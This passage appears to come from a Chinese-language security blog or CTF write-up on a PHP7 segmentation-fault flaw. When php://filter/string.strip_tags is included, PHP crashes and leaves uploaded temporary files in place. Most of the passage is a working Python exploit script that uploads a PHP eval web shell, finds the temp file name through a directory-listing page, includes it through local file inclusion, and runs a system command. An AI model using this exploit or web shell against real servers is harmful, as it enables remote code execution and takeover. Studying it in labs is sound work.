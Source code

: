 大家还是读读上面代码 也能学到内容

#### PHP7 Segment Falut

首先是 php7 的一个漏洞

```cobol
通过特定伪协议包含文件会发生段错误 这个时候上传的文件会保存在临时文件下 并且不会被删除
 
 
php://filter/sring.strip_tags
```

##### 存在dir类型的页面

我们只需要去包含里面的漏洞文件即可

##### 不存在dir类型页面

通过爆破实现即可

下面是存在dir页面的时候的脚本

```cobol
# -*- coding: utf-8 -*-
import re
import requests
from io import BytesIO
 
# 定义漏洞URL和文件路径
vul_url = "http://localhost/index.php?file=php://filter/string.strip_tags/resource=C:/Windows/win.ini"
url2 = "http://localhost/dir.php"
 
# 构建文件
files = {'file': BytesIO('<?php eval($_REQUEST[1]);?>')}
 
# 发送漏洞利用请求
req = requests.post(url=vul_url, files=files, allow_redirects=False)
req2 = requests.get(url=url2)
# 获取临时文件名
content1 = re.search(r"php[a-zA-Z0-9]{1,}.tmp", req2.content).group(0)
 
# 构建获取目录列表的URL
url3 = "http://localhost/index.php?file=C:/Windows/{}".format(content1)
 
# 构建命令
data = {
    1: "system('dir');"
}
 
# 发送获取目录列表的请求
req3 = requests.post(url=url3, data=data)
 
# 输出结果
print u"目录列表：\n{}".format(req3.text)
```
